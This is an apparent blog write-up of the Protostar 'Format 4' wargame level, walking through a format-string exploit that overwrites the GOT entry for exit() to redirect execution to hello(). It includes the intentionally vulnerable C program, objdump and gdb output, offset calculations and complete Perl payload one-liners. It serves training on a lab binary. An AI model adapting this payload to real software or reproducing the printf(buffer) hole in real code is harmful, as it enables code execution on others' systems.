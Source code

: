 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 4"
date: "2012-02-02T05:15:00-05:00"
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Next up is the last challenge in the Format String series, [Format 4](http://exploit-exercises.com/protostar/format4). 

<!-- more -->

It starts out with the following code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
 printf("code execution redirected! you win\n");
 _exit(1);
}

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);

 printf(buffer);

 exit(1); 
}

int main(int argc, char **argv)
{
 vuln();
}
```

What initially caught my eye was the fact that there was a call to "exit()" as well as "_exit()".  This made me think back to my reading, and I realized it was going to be a GOT (Global Offset Table) overwrite on "exit()".  When the program runs for the first time, the GOT is initialized to 0x00000000 for every external function, such as libc functions.  The first time it runs that function, it will cache the memory address in the GOT, so that it doesn't have to ask libc, or the corresponding library each time.  If we overwrite the GOT value, we can make it execute arbitrary code instead of that original function.  In this case, our victim is "exit()". 

For this exploit to work, we will need a few things: 

* Memory address of "exit()" in the GOT, which we want to overwrite
* Memory address of "hello()", which will be the data we overwrite the GOT with
* Stack offset for the format string
* The amount of characters to buffer for each byte-pair

Getting the memory address of the "exit()" method in the GOT is fairly easy:

```
user@protostar:/opt/protostar/bin$ objdump -R format4

format4:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit
```

Getting the memory address of "hello()" is quite similar: 

```
user@protostar:/opt/protostar/bin$ objdump -t format4 | grep hello
080484b4 g     F .text  0000001e              hello
```

To get the stack offset of the format string, it's quite simple.  We've done it in prior challenges.  Let's just spam "%x":   

```
user@protostar:/opt/protostar/bin$ echo AAAAAAAA`perl -e 'print "%x."x15'` | ./format4
AAAAAAAA200.b7fd8420.bffff624.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.
```

From this, we can now see "41414141" in the 4th stack variable, so our offset is 4. 

Using that offset of 4, we can now generate a format string using Direct Parameter Access, which I've only slightly mentioned in previous posts. I chose to dump the string to a file, because it made it really easy to use with gdb. 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "\x24\x97\x04\x08"."\x25\x97\x04\x08"."\x26\x97\x04\x08"."\x27\x97\x04\x08"."%4\$n"' > /home/user/format4_dpa
```

Next, if we run it in gdb, we can see how many characters are being written to "printf" initially, and adjust our buffering to compensate.  Start up the gdb debugger, and disassemble the "vuln" function.  We do this, so we can set a breakpoint right before "exit()" gets called. 

```
user@protostar:/opt/protostar/bin$ gdb --quiet ./format4
Reading symbols from /opt/protostar/bin/format4...done.
(gdb) disassemble vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   %ebp
0x080484d3 <vuln+1>:    mov    %esp,%ebp
0x080484d5 <vuln+3>:    sub    $0x218,%esp
0x080484db <vuln+9>:    mov    0x8049730,%eax
0x080484e0 <vuln+14>:   mov    %eax,0x8(%esp)
0x080484e4 <vuln+18>:   movl   $0x200,0x4(%esp)
0x080484ec <vuln+26>:   lea    -0x208(%ebp),%eax
0x080484f2 <vuln+32>:   mov    %eax,(%esp)
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    -0x208(%ebp),%eax
0x08048500 <vuln+46>:   mov    %eax,(%esp)
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   movl   $0x1,(%esp)
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>
End of assembler dump.
(gdb) b *vuln+61
Breakpoint 1 at 0x804850f: file format4/format4.c, line 22.
```

After the breakpoint has been set, go ahead and run the program, piping in the formatstring from the file we created earlier: 

```
(gdb) run < /home/user/format4_dpa
Starting program: /opt/protostar/bin/format4 < /home/user/format4_dpa

Breakpoint 1, 0x0804850f in vuln () at format4/format4.c:22
22      format4/format4.c: No such file or directory.
        in format4/format4.c
```

What we need to do, is examine the address of the GOT space for the "exit()" method, and now see what was set. 

```
(gdb) x/1x 0x08049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x00000010
```

Good, so far we know: <ul><li>GOT address to overwrite: 0x8049724</li><li>Value to overwrite it with: 0x080484b4</li></ul>
We can use this data to now calculate all of the individual buffer sizes needed to get the right number of characters output by "printf".  This little trick was learned from reading [Hacking: The Art of Exploitation, 2nd Edition](http://www.amazon.com/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag=mattandcom-20&linkCode=as2&camp=1789&creative=390957&creativeASIN=1593271441)<img src="http://www.assoc-amazon.com/e/ir?t=mattandcom-20&l=as2&o=1&a=1593271441" width="1" height="1" border="0" alt="" style="border:none !important; margin:0px !important;" />, which I highly recommend.  Without this book, I would have been stuck on these format string levels for a lot longer than I was. I just needed a little bump, and it gave it to me. 

```
user@protostar:/opt/protostar/bin$ gdb -q
(gdb) p 0xb4 - 0x00000010
$1 = 164
(gdb) p 0x84 - 0xb4
$2 = -48
(gdb) p 0x184 - 0xb4
$3 = 208
(gdb) p 0x04 - 0x84
$4 = -128
(gdb) p 0x104 - 0x84
$5 = 128
(gdb) p 0x08 - 0x04
$6 = 4
(gdb) p 0x108 - 0x04
$7 = 260
```

To explain this, you take the address you want to overwrite with (0x080484b4 in our case) and split it up into the byte pairs in little endian order (b4, 84, 08, 08).  Starting with the first one (b4), you subtract the base number we saw get written before (0x00000010), and that will give us the first buffer length of 164.  For the second one, take the 2nd byte pair (84) and subtract the first byte pair (b4).  In this case, we went negative, so we add a "1" in the most significant digit of the first number, making ours "184".  We then subtract again, and get 208.  You do this for all 4 pairs, and you get your offsets of 164, 208, 128, 260. 

Now that we have our buffer sizes, let's construct the format string with them: 

```
user@protostar:/opt/protostar/bin$ perl -e 'print "\x24\x97\x04\x08"."\x25\x97\x04\x08"."\x26\x97\x04\x08"."\x27\x97\x04\x08"."%164x%4\$n"."%208x%5\$n"."%128x%6\$n"."%260x%7\$n"' > /home/user/format4_dpa
```

Lastly, we run the format4 program with the format4_dpa file as the input: 

```
user@protostar:/opt/protostar/bin$ ./format4 < /home/user/format4_dpa           $%&'                                                              

                                                                                                   200                                            

                                                                                                                                                  

          b7fd8420                                                                                                                        

bffff624                                                                                                                                          

                                                                                                                   8049724code execution 

redirected! you win
```

And that's a win! 

I learned a lot of things in this section of the Protostar challenge.  I had almost no experience with format string exploitation, but now I'm feeling pretty comfortable with them.  We'll have to see about the [Final 1](http://exploit-exercises.com/protostar/final1) level.
